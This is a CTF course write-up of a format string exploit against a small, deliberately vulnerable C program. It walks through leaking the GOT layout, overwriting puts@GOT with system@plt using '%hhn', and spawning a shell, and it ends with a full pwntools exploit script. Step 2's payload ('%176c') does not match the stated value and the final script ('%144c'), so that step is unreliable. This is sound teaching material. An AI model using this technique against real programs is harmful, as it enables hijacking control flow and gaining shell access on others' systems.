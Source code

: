 ```yaml
---
title: Simple PWN - 0x11(format string bug)
tags: [CTF, PWN, eductf]

category: "Security > Course > NTU CS > PWN"
---
```


# Simple PWN - 0x11(format string bug)
###### tags: `CTF` `PWN` `eductf`


## format string bug background
[printf %n](https://www.geeksforgeeks.org/g-fact-31/)
![](https://media.geeksforgeeks.org/wp-content/cdn-uploads/20191009172738/n-in-printf.jpg)

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char fmt[0x20];

    system("echo 'Give me fmt: '");
    read(0, fmt, 0x20);
    printf(fmt);

    system("echo 'Give me string: '");
    read(0, fmt, 0x20);
    puts(fmt);

    return 0;
}
```
```bash!
$ gcc -o fmt fmt.c -no-pie -fno-stack-protector -z norelro -zexecstack
```
* In this problem, we can consider to use `format string bug` to achieve `GOT hijacking` without buffer overflow.
* **The main idea is totally the same as [GOT hijacking lecture](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/S1BBpSR5s)**
* Thus, we can observe which function can be overlapped by `system plt` → <font color="FF0000">**`puts function`**</font>
    * Because...
    `puts` just needs one argument like `system` function, but how about `printf`?
    Unfortunately, it appeared before 2nd read function, because 2nd `read` needs to store the argument for `system` function such as `sh\x00`.
## Exploit - GOT hijacking + format string bug
**Our goal is hijack `puts GOT` to `system plt`**
1. Find `puts GOT` address and `system plt` → <font color="FF0000">`0x403318` and `0x401090`</font>
    ```bash
    $ objdump -d fmt
    ...
    0000000000401090 <system@plt>:
      401090:       f3 0f 1e fa             endbr64
      401094:       f2 ff 25 85 22 00 00    bnd jmp *0x2285(%rip) # 403320 <system@GLIBC_2.2.5>
      40109b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
    ...
    $ gdb fmt
    ...
    pwndbg> attach <PID>
    pwndbg> got

    GOT protection: No RELRO | GOT functions: 5

    [0x403318] puts@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
    [0x403320] system@GLIBC_2.2.5 -> 0x7f87de291d60 (system) ◂— endbr64
    [0x403328] printf@GLIBC_2.2.5 -> 0x401050 ◂— endbr64
    [0x403330] read@GLIBC_2.2.5 -> 0x7f87de355980 (read) ◂— endbr64
    [0x403338] setvbuf@GLIBC_2.2.5 -> 0x7f87de2c2670 (setvbuf) ◂— endbr64
    ...
    ```
2. Construct format string - try and error
    ```python!
    r.sendafter("Give me fmt: ", b"%176c%8$hhn" + b"aaaaa" + p64(puts_got))
    ```
    **從結果來看比較清楚**
    ![](https://imgur.com/G4YPrXO.png)

    * Parse `b"%176c%8$hhn" + b"aaaaa" + p64(puts_got)`
Our goal is overlap `puts GOT`, so we put address of puts_got at final position, that is `[%rsp + 16]`(format string: `$8`)
We want to modify `0x401030` to `0x401090`, so we just modify only **1 bytes**(format string: `%hhn`). In addition, <font color="FF0000">`0x90` is 144</font> as decimal.(format string: `%176c`)
Combine all format sting: `%176c%8$hhn` and other space can pad trash bytes

3. Pass the command to `system` function - `sh\x00` to open shell
    ```python!
    r.sendafter("Give me string: ", "sh\x00")
    ```
4. Finally, we got shell!!!
    ![](https://imgur.com/Zh5jE4N.png)
    
* Whole exploit
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process("./fmt")
    raw_input()

    puts_got = 0x403318
    system_plt = 0x401090

    r.sendafter("Give me fmt: ", b"%144c%8$hhn" + b"aaaaa" + p64(puts_got))
    r.sendafter("Give me string: ", "sh\x00")

    r.interactive()
    ```